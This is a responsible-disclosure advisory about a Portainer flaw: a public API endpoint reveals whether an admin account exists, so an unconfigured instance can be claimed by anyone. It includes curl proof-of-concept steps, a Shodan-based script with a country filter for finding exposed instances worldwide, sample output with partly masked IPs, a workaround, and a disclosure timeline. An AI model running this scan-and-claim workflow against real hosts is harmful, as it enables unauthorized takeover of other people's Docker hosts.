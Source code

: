 Responsible Disclosure

# Portainer - Check if admin already created by a public API endpoint

## PRODUCT DESCRIPTION

[PORTAINER](https://portainer.io) IS AN OPEN-SOURCE LIGHTWEIGHT MANAGEMENT UI WHICH ALLOWS YOU TO EASILY MANAGE YOUR DOCKER HOSTS OR SWARM CLUSTERS

## BACKGROUND

- Portainer until 1.19.2

## VULNERABILITY DETAILS

Portainer provides an API endpoint (/api/users/admin/check) to verify that the admin user is already created. This API endpoint will return 404 if admin was not created and 204 if it was already created. This "feature" allows anyone to receive unauthorized access on the host when the portainer is configured incorrectly.

## PROOF OF CONCEPT

Manual steps to reproduce the vulnerability:

1. docker run --rm -it -p 9000:9000 -v /var/run/docker.sock:/var/run/docker.sock portainer/portainer
2. curl -X GET -s -o /dev/null -w "%{http_code}" http://127.0.0.1:9000/api/users/admin/check
3. If curl return 404, open web-browser and create a admin password. xdg-open http://127.0.0.1:9000

Applying this around the world with shodan:

```bash
git clone git@github.com:lichti/shodan-portainer.git
virtualenv --python python3 .venv
source .venv/bin/activate
pip install -r requirements.txt
export SHODAN_API_KEY=xxxxxxxxxxxxxxxxxxxxxxx
python portainer.py
```

If you has a paid plan, you can use a filters:

```bash
export SHODAN_FILTER = 'country:"BR"'
python portainer.py
```

Output example:

```txt
Country: US | ISP: Digital Ocean | http://142.x.y.158:9001/
Country: CA | ISP: Atlantic.net  | http://45.x.y.165:9000/
Error: skipping 206.x.y.63
```

## WORKAROUND

Forcing the admin password by extra parameter on portainer CLI - [configuration.html#admin-password](https://portainer.readthedocs.io/en/stable/configuration.html#admin-password). On source code [portainer.go#L13-L14](https://github.com/portainer/portainer/blob/develop/api/portainer.go#L13-L14).

## VULNERABILITY DISCLOSURE TIMELINE

**2018-11-19:** Vendor was contacted [#2475](https://github.com/portainer/portainer/issues/2475)

## AUTHOR & REVISION

**Author:** Gustavo Lichti <gustavo.lichti@gmail.com>

**Revision:** 
